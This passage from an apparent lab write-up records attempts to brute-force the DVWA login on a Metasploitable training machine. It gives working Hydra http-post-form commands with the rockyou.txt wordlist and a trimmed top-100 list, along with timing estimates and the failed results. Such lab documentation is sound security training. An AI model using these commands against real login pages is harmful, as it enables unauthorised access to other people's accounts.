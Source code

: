         - Make it available for use in Hydra or other tools
        - It's a big file (~14M passwords)

    - Ran Hydra with my own `users.txt` and extracted `rockyou.txt`:
        ```bash
        hydra -L users.txt -P /usr/share/wordlists/rockyou.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
        ```
    - Result: "272543581 login tries (l:19/p:14344399)": 
        - Testing 19 usernames × 14.3 million passwords
        - That's 272 million login attempts
        - Doing about 780 tries/minute
        - Estimated time: ~5760 hours (yes, ~8 months)
        -> Due to the size of the password list (14M entries), the process was manually interrupted after 30 minutes, having tested over 24,000 credentials without success.
    
    - Screenshot of the Hydra attack with full `rockyou.txt` wordlist: 
    
    ![Hydra attack with too long wordlist](./screenshots/brute-force/hydra-2nd-attack-with-too-large-password-list.jpg)

- 3rd attempt: Tried using a smaller Sample of `rockyou.txt` (failed)
    - Minimized the `rockyou.txt` wordlist to the top 100 passwords:
        ```bash
        head -n 100 /usr/share/wordlists/rockyou.txt > top100.txt
        ```
    - Then reran Hydra with that list:
        ```bash
        hydra -L users.txt -P top100.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
        ```
    - This finished quickly, but resulted in 0 valid passwords again, and proved that the previous test probably ran correctly for the 24,000 credentials without success before the process was interrupted. 
